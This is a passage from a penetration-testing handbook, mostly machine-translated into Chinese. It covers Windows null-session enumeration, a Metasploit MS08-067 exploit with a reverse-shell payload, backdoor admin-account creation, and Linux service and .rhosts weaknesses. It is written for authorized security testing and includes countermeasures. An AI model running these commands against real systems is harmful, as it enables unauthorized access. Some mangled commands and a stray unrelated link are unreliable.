隐藏共享 —  — 在共享名称末尾添加美元符号 ($) —  — 实际上并不能隐藏共享名称。我提到的所有工具都能轻易看透这种“安全隐蔽”手段。事实上，如果您发现此类共享，应更 closely 观察，因为用户可能在隐藏某些内容，或知道共享上的信息敏感，不希望引起注意。

#### 检测 Null Sessions

一个众所周知的 Windows 漏洞允许将匿名连接（即 *null session*）映射到隐藏的 IPC$ 共享（即 *interprocess communication*）。此攻击方法可用于收集 Windows 主机配置信息，如用户标识和共享名称，或编辑远程计算机注册表的部分内容。

尽管 Windows Server 2008 及以后版本，以及 Windows 7、Windows 8 和 Windows 10 默认不允许 null-session 连接，但我常发现因禁用 Windows 防火墙而配置了此漏洞的系统。此漏洞可能对您的网络造成问题。


虽然后续版本的 Windows 比其前身更安全，但不要误以为 Windows 环境万无一失。我无法告诉你有多少次在 Windows 环境中，看似安全的 Windows 安装被修改以满足某个应用程序或业务需求，而这些需求本身却便利了攻击者。

### Mapping

针对每一台 Windows 计算机，按照以下步骤进行 null session 的映射：

1. **格式化基本的 `net` 命令，例如：**  

    `net use \\host_name_or_IP_address\ipc$ "" "/user:"`

    映射 null session 的 `net` 命令需要以下参数：

    *   `net`（Windows 内置的 *network* 命令）后跟 `use` 选项。

    *   目标系统的 IP 地址或主机名。

    *   空白密码和用户名。

    空白是 *null* 连接之所以得名的原因。

2. **按回车键建立连接。**

    Figure 12-6 显示了完整命令的示例，用于映射 null session。映射完成后，应看到 `The command completed successfully` 的提示信息。



 FIGURE 12-6:  Mapping a null session to a vulnerable Windows system

为确认会话已映射，请在命令行中输入：

`net use`

如 Figure 12-6 所示，你会在每个已连接的计算机上看到指向 IPC$ 共享的映射。

### 获取信息

通过 null‑session 连接，你可以使用其他实用工具远程获取关键的 Windows 信息。数十种工具可以完成此类信息的枚举。

像黑客一样，你可以将这些枚举程序的输出用于（作为未授权用户）尝试以下操作：

*   破解你发现的用户密码。（详见 第 8 章）

*   映射到每台计算机的网络共享驱动器。

下面列出的应用程序可用于对 Windows 服务器版本早于 Server 2003 以及 Windows XP 的系统进行枚举。别笑——我仍然看到这些古老版本的 Windows 在运行。

#### net view

`net view` 命令（见 Figure 12-7）显示 Windows 主机上可用的共享。你可以利用该程序的输出，查看服务器向外部广告的信息以及可利用的内容，包括：

*   攻击者可以利用的共享信息，如映射驱动器和共享密码破解。

*   可能需要移除的共享权限，例如在老式 Windows 2000 系统中，Everyone 组的读取权限，以便至少能够查看共享。


 FIGURE 12-7:  net view displays drive shares on a remote Windows host.

#### 配置和用户信息

Winfo 与 DumpSec（[`www.systemtools.com/somarsoft/index.html`](https://www.systemtools.com/somarsoft/index.html)）可获取用户和配置信息，如系统所属的 Windows 域、安全策略设置、本地用户名以及共享驱动器。

你的偏好可能取决于是喜欢图形界面还是命令行。Winfo 是命令行工具。

由于 Winfo 是命令行工具，你可以编写批处理（脚本）文件来自动化枚举过程。下面是 Winfo 对 Windows NT 服务器的简要输出示例，其他 Windows 系统可产生相同信息：

`Winfo 2.0 - copyright (c) 1999-2003, Arne Vidstrom- http://www.ntsecurity.nu/toolbox/winfo/`  

SYSTEM INFORMATION:  

\- OS version: 4.0  

PASSWORD POLICY:  

\- Time between end of logon time and forced logoff: No forced logoff  

\- Maximum password age: 42 days  

\- Minimum password age: 0 days  

\- Password history length: 0 passwords  

\- Minimum password length: 0 characters  

USER ACCOUNTS:  

\* Administrator  

(This account is the built-in administrator account)  

\* doctorx  

\* Guest  

(This account is the built-in guest account)  

\* IUSR_WINNT  

\* kbeaver  

\* nikki  

SHARES:  

\* ADMIN$  

\- Type: Special share reserved for IPC or administrative share  

\* IPC$  

\- Type: Unknown  

\* Here2Bhacked  

\- Type: Disk drive  

\* C$  

\- Type: Special share reserved for IPC or administrative share  

\* Finance  

\- Type: Disk drive  

\* HR  

\- Type: Disk drive

这些信息无法从 Windows Server 2003 或 Windows XP 的默认安装中获取，只能从受支持的系统中获取。希望你不是运行上述旧版 Windows，尽管我仍然看到它们在野外。

你可以浏览此类工具的输出，查找不属于你系统的用户 ID，例如未被禁用的前雇员账户或黑客可能创建的潜在后门账户。

如果攻击者获取这些信息，他们可以尝试利用弱密码登录为这些用户。

### 防御 null‑session 黑客

如果在业务上合理且时机合适，升级到更安全的 Windows Server 2016、Windows Server 2019、Windows 8.1 或 Windows 10，这些版本不存在文中所述的漏洞。

你可以通过实施以下安全措施轻易防止 null‑session 连接攻击：

*   在 Windows 服务器上阻止 NetBIOS，方法是阻止以下 TCP 端口通过网络防火墙或个人防火墙通行：

    *   139（NetBIOS 会话服务）

    *   445（直接在 TCP/IP 上运行 SMB，无需 NetBIOS）

*   对不需要的系统，在网络连接属性的“共享”选项卡中禁用“文件和打印共享 for Microsoft Networks”。

*   限制匿名连接。如果你仍在环境中保留 Windows NT 或 Windows 2000 系统（希望没有），可以将 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\LSA\RestrictAnonymous` 设置为下列 DWORD 值之一：

    *   *None*：默认设置。

    *   *Rely on Default Permissions (Setting 0)*：允许默认的 null‑session 连接。

    *   *Do Not Allow Enumeration of SAM Accounts and Shares (Setting 1)*：中等安全级别，仍允许映射到 IPC$，从而让诸如 Walksam 之类的工具获取系统信息。

    *   *No Access without Explicit Anonymous Permissions (Setting 2)*：高安全级别，阻止 null‑session 连接并禁止系统枚举。

    Setting 2（No Access without Explicit Anonymous Permissions）可能会影响域控制器通信和网络浏览，使用时需谨慎，以免导致网络功能受损。

对于较新版本的 Windows，从 Windows Server 2008 R2 及 Windows 7 开始，请确保本地或组安全策略中的“网络访问匿名组件”设置如 Figure 12-8 所示配置。


 FIGURE 12-8:  Default local security-policy settings in Windows 7 that restrict null-session connections.

## 检查共享权限


Windows `shares` 是用户通过 Windows 的 `Network` 选项浏览网络时出现的可用网络驱动器。Windows shares 经常配置不当，导致比应有的更多人能够访问它们。普通浏览者可以利用这一安全漏洞，而恶意内部人员若未经授权访问 Windows 系统，则可能带来严重的安全和合规后果，包括泄露敏感信息以及损坏或删除关键文件。

### Windows 默认

默认的共享权限取决于 Windows 系统版本。

#### Windows 2000/NT

在 Windows NT 和 Windows 2000 中创建共享时，默认会将 `Everyone` 组授予 `Full Control` 访问权限，以浏览、读取和写入所有文件。

你已经不应再在网络中运行这些版本的 Windows，但它们仍然存在！

 如在“Detecting Null Sessions”章节前文所述，将 `IPC$` 连接与空会话（null session）映射的 **Anyone** 会自动加入 `Everyone` 组。因此，远程黑客在建立空会话后即可自动获得浏览、读取和写入 Windows NT 或 Windows 2000 服务器的权限。

#### Windows XP 及以后

在 Windows XP 及以后（包括 Windows Server 2016、Windows 10 等）系统中，`Everyone` 组仅获得共享的 **读取** 权限。此设置相较于 Windows 2000 和 Windows NT 的默认更为安全，但在某些情况下仍不希望 `Everyone` 组拥有对共享的即使读取权限。

 共享权限与文件权限不同。创建共享时需要同时设置两种权限。在当前 Windows 版本中，这些设置会为普通用户创造跳过的障碍并抑制共享创建，但并非万无一失。除非你锁定 Windows 桌面，用户仍可随意共享文件，包括通过 OneDrive、ShareFile 等云端文件共享服务。

### 测试

评估共享权限是了解谁可以访问什么的有效方式。此测试显示网络共享 —  — 以及敏感信息 —  — 可能受到的暴露程度。你可以查找拥有默认权限和不必要访问权限的共享。相信我，它们无处不在！

最佳的测试方法是使用普通本地或域用户（无特殊权限）登录 Windows 系统，然后运行枚举程序，以便查看谁可以访问什么。

SoftPerfect Network Scanner 内置共享发现功能，用于 uncovering unprotected shares，相关选项在 Figure 12-9 中所示。


 FIGURE 12-9: SoftPerfect Network Scanner’s Share Finder profile seeks out Windows shares.

下面我会在 第 16 章 中提供更多关于在非结构化文件和其他存储系统上发现敏感信息的细节。

## 利用未打补丁的漏洞

仅仅对 Windows 进行挖掘、探测可能会发现一些信息，甚至可能获得系统访问权限。但如果你发现一个能在 10 分钟内让攻击者获得完整系统访问的漏洞，情况则完全不同。使用诸如 Metasploit 之类的工具，只需针对一个缺失的补丁即可获取系统并展示整个网络的可被 compromise 的程度。缺失的补丁是黑客的“黄金宝库”。

 尽管有完善的安全策略和高级的补丁管理工具，我在每个网络中都发现许多 Windows 系统未及时应用所有补丁。原因可能是漏洞扫描仪的误报，或是被认为可接受的风险而未打的补丁。即使你认为所有系统都已安装最新补丁，也必须确认。在安全评估中，信任但要验证。

 在使用 Metasploit “sploit” 漏洞之前，务必了解你进入的是敏感领域。你不仅可能获得对敏感系统的“未经授权”完整访问，还可能导致被测试系统挂起或重启。请仔细阅读每个漏洞利用的文档，并谨慎操作。

在利用缺失的补丁或相关漏洞之前，你需要确认有哪些可供利用的漏洞。最佳做法是使用诸如 Nexpose 或 Nessus 等工具。我发现 Nexpose 在未经认证的网络用户身份下，能够很好地发现这些漏洞。

Figure 12-10 展示了 Nexpose 对一台运行 2008 年 Windows Plug and Play Remote Code Execution 漏洞（MS08-067）的 Windows 服务器扫描结果，这种漏洞至今仍时常出现。更常见的是，我发现了 WannaCry 勒索软件利用的 SMB Server 漏洞（MS17-010）。该漏洞极其危险，它允许攻击者 ** compromise 系统并加密驱动器**，以勒索数据。


 FIGURE 12-10: Exploitable vulnerability found by Nexpose.

 只需一个用户点击一个恶意链接，你的整个网络即可被 compromise（甚至被加密）。我在第 6 章（Chapter 6）中介绍了社会工程和钓鱼。

### 使用 Metasploit

找到漏洞后，下一步是利用它。下面是我使用 Metasploit Framework（Rapid7 所有并维护的开源工具）在目标服务器上获得远程命令行的示例：

1.  **下载并安装 Metasploit Framework** [ `https://www.metasploit.com` ](https://www.metasploit.com) **.**

    我使用的是 Windows 版本，你可以下载并运行可执行文件。

2.  **安装完成后，启动 Metasploit 控制台，这是 Metasploit 的主控制台。**

    （也可以通过浏览器访问基于网页的 Metasploit 版本，但我更倾向于控制台界面。）

    你会看到类似 Figure 12-11 所示的界面。

3.  **输入想要运行的 exploit。**

    如果要运行 Microsoft MS08-067 Plug and Play exploit，输入以下命令：

    `use exploit/windows/smb/ms08_067_netapi`

4.  **输入目标主机 (RHOST) 和本地主机 (LHOST) 的 IP 地址：**

    `set RHOST ip_addressset LHOST ip_address`

5.  **设置目标操作系统（通常为 0 表示自动定位）：**

    `set TARGET 0`

6.  **设置要执行的 payload（攻击载荷）。**

    我通常选择 `windows/shell_reverse_tcp`，它会在被利用的系统上提供一个远程命令行。

    Figure 12-12 展示了在 Metasploit 控制台上应看到的界面。

7.  **在 Metasploit 控制台中输入** `exploit` **。**

    该命令执行最终步骤，Metasploit 将载荷交付到目标系统。假设 exploit 成功，你将看到一个命令行提示符，可以输入常规 DOS 命令（如 `dir`），如 Figure 12-13 所示。


 FIGURE 12-11: The main Metasploit console


FIGURE 12-12:  Metasploit options to obtain a remote command prompt on the target system.


FIGURE 12-13:  Remote command prompt on target system obtained by exploiting a missing Windows patch.

In this ironic example, a Mac is running Windows via the Boot Camp software. I now “own” the system and can do whatever I want. One thing that I commonly do is add a user account to the exploited system. You can do this within Metasploit (via the adduser payloads), but I prefer to do it on my own so that I can get screen shots of my actions. To add a user, enter `net user username password /add` at the Metasploit command prompt.

Next, add the user to the local administrators group by entering `net localgroup administrators username /add` at the Metasploit command prompt. Then you can log in to the remote system by mapping a drive to the C$ share or by connecting via Remote Desktop.

If you choose to add a user account during this phase, be sure to remove it when you finish. Otherwise, you can create another vulnerability on the system, especially if the account has a weak password or is otherwise unmanaged. Chapter 3 covers related issues, such as the need for a contract when performing your testing. You want to make sure that you've covered yourself.

All in all, this is vulnerability and penetration testing at its finest!

Two versions of Metasploit are available from Rapid7. The free edition outlined in the preceding steps, Metasploit Framework, may be all you need if an occasional screen shot of remote access or a similar function is sufficient for your testing purposes. A full-blown commercial version called Metasploit Pro is available for the serious security professional. Metasploit Pro adds features for social engineering, web application scanning, and detailed reporting.

Figure 12-14 shows Metasploit Pro’s Overview screen. Notice the workflow features in the Quick Start Wizards icons, including Quick PenTest, Phishing Campaign, and Web App Test. The interface is well thought out, taking the pain out of traditional security scanning, exploitation, and reporting, which is especially helpful for the less-technical IT professional.


FIGURE 12-14:  Metasploit Pro’s graphical interface provides broad security testing capabilities, including phishing and web application security checks.

Metasploit Pro enables you to import scanner findings (typically, XML files) from third-party vulnerability scanners as well as its sister product, Nexpose. Click the name of your project in the Project Listing section (or create a new one by selecting New Project) and then click the Import button. After the scan data file is imported, you can click the Vulnerabilities tab to see all the original vulnerability scanner findings. To exploit one of the vulnerabilities (assuming that Metasploit Pro supports the exploit), click the finding in the Name column. The resulting page allows you to click Exploit and execute the flaw, as shown in Figure 12-15.


FIGURE 12-15:  Starting the exploit process in Metasploit Pro is as simple as importing your scanner findings and clicking Exploit.

Keep in mind that in this chapter, I’ve demonstrated only a fraction of what Metasploit Framework and Metasploit Pro can do. I highly recommend that you download one or both tools and familiarize yourself with it (or them). Numerous resources at [`https://www.metasploit.com/help`](https://www.metasploit.com/help) can take your skill set to the next level. Combine Metasploit’s powerful features with the exploit code that’s continually updated at sites such as Offensive Security’s Exploits Database Archive ([`https://www.exploit-db.com`](https://www.exploit-db.com)), and you have practically everything you’ll need if you drill down to that level of exploitation in your security testing.

### Countermeasures against missing patch vulnerability exploits

Patch your systems — the Windows OS and any Microsoft or third-party applications running on them. I know that patching is a lot easier said than done. Combine that practice with the other hardening recommendations I provide in this chapter, however, and you’ll have a pretty darned secure Windows environment.

To get your arms around the patching process, automate it wherever you can. You can use the following tools: 

*   Windows Update.

*   Windows Server Update Services, which you can find at [`https://docs.microsoft.com/en-us/windows-server/administration/windows-server-update-services/get-started/windows-server-update-services-wsus`](https://docs.microsoft.com/en-us/windows-server/administration/windows-server-update-services/get-started/windows-server-update-services-wsus).

*   System Center Configuration Manager, which you can find at [`https://www.microsoft.com/en-us/cloud-platform/system-center-configuration-manager`](https://www.microsoft.com/en-us/cloud-platform/system-center-configuration-manager).

Keep in mind that these tools are Microsoft-centric patch managers. I can’t stress enough the need to get your third-party patches for Adobe, Java, and other products under control. If you’re looking for a commercial alternative, check out GFI LanGuard’s patch management features ([`https://www.gfi.com/products-and-solutions/network-security-solutions/gfi-languard`](https://www.gfi.com/products-and-solutions/network-security-solutions/gfi-languard)) and PDQ Deploy ([`https://www.pdq.com/pdq-deploy`](https://www.pdq.com/pdq-deploy)), among others. I cover patching in depth in Chapter 18.

## Running Authenticated Scans

Another test you can run against your Windows systems is an authenticated scan, essentially looking for vulnerabilities as a trusted user. I find these types of tests to be very beneficial because they often highlight system problems and even operational security weaknesses (such as poor change management processes, weak patch management, and lack of information classification) that would never be discovered otherwise.

A trusted insider who has physical access to your network and the right tools can exploit vulnerabilities even more easily, especially if no internal access control lists or intrusion prevention system is in place or a malware infection occurs.

A way to look for Windows weaknesses while you’re logged in (that is, through the eyes of a malicious insider) is to use some of the vulnerability scanning tools I’ve mentioned, such as Nessus and Nexpose. Figure 12-16 shows the nice (and rare) feature of Nexpose that allows you to test your login credentials before starting vulnerability scans. Being able to validate login credentials before you start your scans can save you an amazing amount of time, hassle, and money.


FIGURE 12-16:  Testing login credentials before running an authenticated scan with Nexpose to see what an insider can see and exploit.


-   建议以域管理员或本地管理员身份运行已认证扫描。已认证扫描能够显示最多的安全漏洞以及谁可以访问什么资源。你可能会惊讶地发现，许多漏洞是通过标准用户账户可访问的。你不一定每次都需要运行已认证扫描，但每年至少进行一次或两次是个好主意。

`检查 Linux 和 macOS 测试工具`

`端口扫描主机`

`在不登录的情况下获取信息`

`在登录 Linux 和 macOS 时利用常见漏洞`

`降低 Linux 和 macOS 的安全风险`

Linux 并未像 Windows 那样在企业桌面上占据大量市场，但其衍生品 macOS 却已广泛使用。Linux 和 macOS 都在企业环境中非常普遍，因此必须确保它们在安全测试的范围内。一个常见的误区是认为 Linux 和 macOS（及其前身 OS X）比 Windows 更安全。然而，越来越多的证据表明这些操作系统同样易受到 Windows 所面临的安全漏洞的影响，所以不能掉以轻心。

恶意黑客正日益针对 Linux 和 macOS，因为它们的普及度和在当前网络环境中的使用范围不断扩大。由于某些 Linux 版本是免费的（即无需为基础操作系统付费），许多组织在希望节省开支并获得更安全的系统的同时，选择在 Web 服务器和邮件服务器上安装 Linux。Linux 之所以受到欢迎，还包括以下原因：

*   资源丰富，包括书籍、网站以及开发者和顾问的专业知识。

*   相比 Windows，Linux 更少受到恶意软件的侵扰。虽然 Linux 在安全性方面表现出色，但这种优势可能不会长久保持。

*   微软、HP、Oracle 等 Unix 供应商的支持力度有所提升。

*   Unix 和 Linux 在使用上变得更加友好。

在工作站层面，OS X 和 macOS 已成为企业的主流操作系统。这些系统基于 Unix/Linux 核心，同样容易受到本章讨论的 Linux 缺陷的影响。

根据我在工作中观察到的情况，Linux 在缺失第三方补丁（如 Adobe、Java 等公司的程序）方面比 Windows 更少受到常见安全漏洞的影响。当我把当前的 Linux 发行版（如 Ubuntu、Red Hat/Fedora）与 Windows 7 或 Windows 10 进行比较时，倾向于发现 Windows 系统存在更多弱点。这可以归因于其广泛使用、功能更多或用户缺乏教育，但 Windows 环境仍有大量可改进的地方。

尽管如此，Linux 并非万无一失。除了第 8 章 [](#c08.xhtml) 中提到的密码攻击外，针对 Linux 系统的远程和本地攻击仍然可能发生。本章将向你展示 Linux 操作系统中的一些安全问题，并提供相应的 countermeasure 来堵住漏洞，以便将恶意攻击者拒之门外。不要让本章标题误导你；大部分内容适用于所有 Unix 变体。

## 理解 Linux 漏洞

针对 Linux 的漏洞和攻击正在给越来越多的组织（尤其是电子商务公司、网络与 IT/安全供应商以及依赖 Linux 系统的云服务提供商）带来业务风险。当 Linux 或 macOS 系统被入侵时，受害组织可能经历与 Windows 用户相同的后果，包括：

*   敏感信息泄露。

*   密码被破解。

*   数据库损坏或删除。

*   系统被取 offline。

### 选择工具

你可以使用众多基于 Linux 的安全工具来测试 Linux 和 macOS 系统。有些工具远优于其他工具。我发现，我的 Windows 商业工具的表现与任何工具一样出色。我的最爱包括：

*   Kali Linux (`https://www.kali.org`) 的可启动 DVD 或 `.iso` 映像文件工具集。

*   NetScanTools Pro (`https://www.netscantools.com`) 用于端口扫描、操作系统枚举等功能。

*   Nexpose (`https://www.rapid7.com/products/nexpose`) 用于详细的端口扫描、操作系统枚举和漏洞测试。

    像 Nexpose 这样的工具几乎可以完成所有安全测试，帮助你在 Linux 上发现漏洞。另一款流行的商业替代品来自 Qualys (`www.qualys.com`)。

*   Nmap (`https://nmap.org`) 用于操作系统指纹识别和详细的端口扫描。

*   Nessus (`www.tenable.com/products/nessus-vulnerability-scanner`) 用于操作系统指纹识别、端口扫描和漏洞测试。

除了上述工具，SourceForge (`https://sourceforge.net`) 上还有大量 Linux 黑客和测试工具可供选择。尽量找到一个功能齐全、数量少且你感到舒适使用的工具组合。如前所述，你往往（但不总是）得到与付费相对应的服务质量。

## 收集系统漏洞信息

你可以对 Linux 和 macOS 系统进行扫描，获取内外部（如果系统是公开可达的主机）的信息，从而让你了解攻击者从两个方向所能看到的内容。

### 系统扫描

Linux 服务（称为 *daemons*）是运行在系统上的程序，提供各种用户服务和应用。

*   如 Apache Web 服务器（httpd）、Telnet（telnetd）和 FTP（ftpd）等 Internet 服务，可能泄露系统的软件版本、内部 IP 地址和用户名等信息，攻击者可利用这些信息利用已知弱点。

*   如 echo、daytime 和 chargen 等 TCP/UDP 小服务默认可能已启用，但并非必须保持开启。

你的 Linux 系统面临的漏洞取决于当前运行的服务。通过基本端口扫描可以获取系统上运行的服务信息。

NetScanTools Pro 的结果（如 Figure 13-1）显示了该 Linux 系统上许多 *潜在* 易受影响的服务，例如 SSH、DNS 和 TFTP 等。


FIGURE 13-1: 使用 NetScanTools Pro 对 Linux 主机进行端口扫描。


在 NetScanTools Pro 之外，你还可以运行像 Nexpose 这样的漏洞扫描工具对系统进行扫描，以获取更多信息。请注意图 13-2 中所示的 macOS High Sierra 系统中缺失的所有补丁（https://wiki.example.org/feynmans_learning_method）。


FIGURE 13-2: 使用 Nexpose 发现 macOS 漏洞。

请记住，通过进行已认证的漏洞扫描，你将在 Linux 和 macOS 上发现最多的漏洞，这一点尤为重要，因为它显示了用户或系统上的恶意软件可利用的内容。即使是 Linux 和 macOS 也容易受到恶意软件的影响！你应该至少每年进行一次此类扫描，或在工作站和服务器上进行重大应用程序或操作系统升级后立即进行扫描。

Figure 13-3 展示了 Nexpose 的出色功能，允许你在启动网络漏洞扫描之前测试登录凭据。


FIGURE 13-3: 使用 Test Credentials 功能作为 Nexpose 扫描配置的一部分。

你说“这个功能有什么大不了的呢？” 好，首先，如果你花费数小时输入正确的登录凭据，却在数小时后发现登录失败，这会导致你运行的扫描失效。如果你按扫描次数收费，这也会对你的预算（或钱包，如果你是自由职业者）造成威胁——因为你可能需要重新扫描数百甚至数千个网络主机。我走过这条路很多次，真的很头疼。

 你可以使用免费工具进一步查找确切的操作系统分发版和内核版本，通过运行 Nmap 命令 `nmap –sV –O` 进行 OS fingerprint 扫描，如图 13-4 所示（https://nvd.nist.gov）。


FIGURE 13-4: 使用 Nmap 确定 Linux 服务器的操作系统内核版本。

基于 Windows 的 NetScanTools Pro 也能确定运行的 Linux 版本，如图 13-5 所示。


FIGURE 13-5: 使用 NetScanTools Pro 确定 Slackware Linux 正在运行。

### 针对系统扫描的防范措施

虽然你无法阻止系统扫描，但可以实施以下防范措施，防止恶意分子获取过多系统信息并将其用于攻击你：

*   通过以下方式保护系统：

    *   使用内置在操作系统中的防火墙（如 `iptables`）

    *   使用主机入侵防御系统（IPS）如 `PortSentry`（https://sourceforge.net/projects/sentrytools），本地代理如 `Snare`（https://www.snaresolutions.com/products/snare-agents），或 `McAfee Host Intrusion Prevention for Server`（https://www.mcafee.com/us/products/host-ips-for-server.aspx），这些系统与更大的安全事件与事件管理系统集成，用于监控并关联网络事件、异常和 breaches。

*   禁用不需要的服务，包括 RPC、HTTP、FTP、Telnet 以及小型 UDP 和 TCP 服务——任何你没有真正业务需求的服务。此做法可使这些服务不出现在端口扫描中，从而让攻击者获得的信息更少（也更少动力去入侵你的系统）。

*   确保安装最新的软件更新，以降低攻击者利用已知服务进行攻击的风险。

### 查找不需要和未受保护的服务

当你知道哪些守护进程和应用程序正在运行——例如 FTP、Telnet 和 Web 服务器——就需要知道它们的具体版本，以便查找相应的漏洞并决定是否关闭它们。国家漏洞数据库（https://nvd.nist.gov）是查找漏洞的良好资源。

#### 搜索

多个安全工具可以发现 Linux 系统中的漏洞。这些工具可能无法识别所有应用程序的精确版本，但它们是收集系统信息的强大方式。

#### 漏洞

请特别注意 Linux 系统中常见的以下安全弱点：

*   匿名 FTP，特别是配置不当时，会让攻击者能够下载并访问系统上的文件。

*   Telnet 和 FTP 容易受到网络分析器捕获的明文用户名和密码的攻击，且其登录可被暴力破解。

*   旧版 `sendmail` 和 `OpenSSL` 存在许多安全问题，包括可能导致系统离线的拒绝服务（DoS）缺陷。

*   R 服务（如 `rlogin`、`rdist`、`rexecd`、`rsh`、`rcp`）特别易受依赖信任的攻击。

许多 Web 服务器在 Linux 上运行，因此不能忽视检查 Apache、Tomcat 等应用的弱点。常见的 Linux 漏洞之一是，当 `httpd.conf` 文件中未禁用 `UserDir` 指令时，用户名可以通过 Apache 泄露。你可以通过访问诸如 `http://www.your~site.com/user_name` 等已知用户文件夹来手动利用此弱点，或更方便地使用像 Netsparker（https://www.netsparker.com）或 Nexpose 这类漏洞扫描器自动枚举系统。无论哪种方式，你都可能发现系统中存在的 Linux 用户，然后发起 Web 密码破解攻击。你还可以通过脆弱的 CGI 和 PHP 代码访问系统文件（包括 `/etc/passwd`）。我在第 15 章（#c15.xhtml）中详细介绍了 Web 应用 hacking。

同样，FTP 经常在 Linux 系统上以未加密方式运行。我在本地网络中发现许多 Linux 系统开启了匿名 FTP，并且在共享敏感的健康护理和金融信息，令人担忧！别忘了关注那些“小事”。在测试 Linux 时，你可以深入内核进行各种复杂的 exploit，但细节通常是关键。寻找网络上的低垂果实，因为它们最快让你陷入麻烦。

匿名 FTP 是我在 Linux 中发现的最常见漏洞之一。如果必须运行 FTP 服务器，请确保它不会将敏感信息共享给内部网络的所有用户，更不要让全世界看到。在我的工作中，这种情况时有出现，而全世界的情况则偶尔出现，已经超出了我能接受的范围。

#### 工具

以下工具能够在端口扫描之外进行深入分析，枚举 Linux 系统并展示外部可见的内容：

*   Nmap 可通过 `-sV` 命令行开关检查已加载的服务具体版本，如图 13-6 所示。只需运行 `nmap –sV` 即可。

*   `netstat` 显示本地机器上运行的服务。在登录状态下运行该命令：

    `netstat –anp`

*   `lsof`（List Open Files）显示系统中正在监听的进程及打开的文件。


FIGURE 13-6:  使用 Nmap 检查应用程序版本。

 运行 `lsof` 时，请登录并在此命令行提示符处输入此命令：`lsof`。`lsof –h` 可用的选项很多，例如 `lsof –I +D /var/log` 可显示当前正通过哪些网络连接使用的日志文件。当你怀疑系统上可能已被恶意软件入侵时，`lsof` 命令会很有用。

### 针对不必要服务的攻击防范措施

你应当禁用 Linux 系统上不必要的服务，这是保持 Linux 系统安全的最佳方式之一。就像减少房屋入口（如门和窗户）的数量一样，消除的入口越多，入侵者越难破入。

#### 禁用不必要的服务

禁用不必要服务的最佳方法取决于是否先加载该守护进程。根据你使用的 Linux 版本，你可以在多个位置禁用服务。

如果你不需要运行某个服务，请走安全路线：关闭它！只要向网络上的其他人充分说明你要做什么，以防有人需要该服务进行工作。

#### INETD.CONF（或 XINETD.CONF）

如果这在商业上是合理的（即你不需要这些服务），可以通过注释掉不需要的守护进程的加载来禁用不必要的服务。请按以下步骤操作：

1.  **在 Linux 提示符处输入以下命令：**  

    `ps -aux`

    该命令会在屏幕上显示每个守护进程的进程 ID（PID），包括 inetd。在 Figure 13-7 中，sshd（安全壳守护进程）的 PID 为 646。

2.  **记录 inetd 的 PID。**

3.  **在 Linux 文本编辑器 vi 中打开 `/etc/inetd.conf`，输入命令：**  

    `vi /etc/inetd.conf`

    或

    `/etc/xinetd.conf`

4.  **在 vi 中加载文件后，按 I 键切换到插入（编辑）模式。**

5.  **将光标移动到要禁用的守护进程行的开头，例如 httpd（Web 服务器守护进程），并在行首输入 `#` 进行注释。**

    这一步会注释该行，防止在重启服务器或重新启动 inetd 时加载该守护进程。同时，这也便于记录和变更管理。

6.  **退出 vi 并保存更改：** 先按 Esc 退出插入模式，然后输入 `:wq` 并回车。

    这表示你希望写入更改并退出。

7.  **使用 inetd 的 PID 重启 inetd：**  

    `kill –HUP PID`


FIGURE 13-7:  使用 ps -aux 查看运行的守护进程的 PID。

#### CHKCONFIG

如果没有 `inetd.conf` 文件（或该文件为空），你的 Linux 版本可能使用 xinetd 程序 —  — 一个比 inetd 更安全的替代品，用于监听传入的网络应用请求。此情况下，你可以编辑 `/etc/xinetd.conf` 文件。更多关于 xinetd 和 `xinetd.conf` 的使用方法，请在 Linux 命令行中输入 **man xinetd** 或 **man xinetd.conf**。如果你使用的是 Red Hat 7.0 或更高版本，可以运行 `/sbin/chkconfig` 程序来关闭不想要的守护进程。

你也可以在命令行中输入 **chkconfig --list** 查看 `xinetd.conf` 文件中已启用的服务。

如果要禁用特定服务（例如 snmp），请输入：

`chkconfig --del snmpd`

 你可以使用 chkconfig 程序禁用其他服务，如 FTP、Telnet 和 Web 服务器。

#### 访问控制

TCP Wrappers 可用于控制像 FTP 和 HTTP 等关键服务的访问。该程序控制 TCP 服务的访问并记录其使用，帮助你通过主机名或 IP 地址控制访问，并追踪恶意活动。

你可以在 `ftp://ftp.porcupine.org/pub/security/index.html` 找到关于 TCP Wrappers 的更多信息。

 确保你的操作系统和运行在其上的应用程序不会向全世界（或内部网络）开放，通过确保合理的密码要求来实现。除非你真的需要，否则切勿启用匿名 FTP。即使启用，也应限制对敏感信息的访问权限，仅允许有业务需求的人员访问。

## 保护 .rhosts 和 hosts.equiv 文件的安全

Linux 及其所有 Unix 变体都是基于文件的操作系统。几乎所有系统上的操作都涉及文件的操作，因此针对 Linux 的许多攻击都是在文件层面进行的。

### 利用 hosts.equiv 和 .rhosts 文件的攻击

如果黑客能够通过网络分析器捕获用户 ID 和密码，或通过缓冲区溢出崩溃应用获取访问权限，他们会寻找本地系统信任用户的信息。因此，必须自行评估这些文件。`/etc/hosts.equiv` 和 `.rhosts` 文件列出了这些信息。

#### hosts.equiv

`/etc/hosts.equiv` 文件不会泄露 root 访问信息，但它指定了系统上哪些账户可以访问本地主机的服务。例如，如果 `tribe` 被列在该文件中，那么 tribe 系统上的所有用户都可以访问本地服务。与 `.rhosts` 文件一样，外部黑客可以读取该文件，并伪装其 IP 地址和主机名以获取未经授权的访问。攻击者还可以利用 `.rhosts` 和 `hosts.equiv` 文件中的名称，寻找其他计算机进行利用。

#### .rhosts

Linux 中 `$home/.rhosts` 文件（包括 root 的家目录，如 `/home/jsmith`）指定了哪些远程用户可以在本地系统上无需密码使用 BSD r 命令（如 rsh、rcp 和 rlogin）。该文件位于特定用户的家目录中，例如 `/home/jsmith`。`.rhosts` 文件可能包含如下内容：

`tribe scotttribe eddie+tribe geoff`

该文件允许远程系统上的 Scott 和 Eddie 用户以本地用户的同等权限登录本地主机。如果在远程主机和用户字段中输入加号（+），则任何主机上的任何用户都可以登录本地系统。黑客可以通过以下两种方式向该文件中添加条目：

*   手动编辑文件。
*   运行脚本，利用未受保护的 Common Gateway Interface（CGI）脚本（Web 服务器应用）进行利用。

此配置文件是恶意攻击的主要目标。在我在测试的大多数 Linux 系统上，这些文件默认未启用。但用户可以在系统的家目录中有意或无意地创建它们，这会导致系统出现严重安全漏洞。

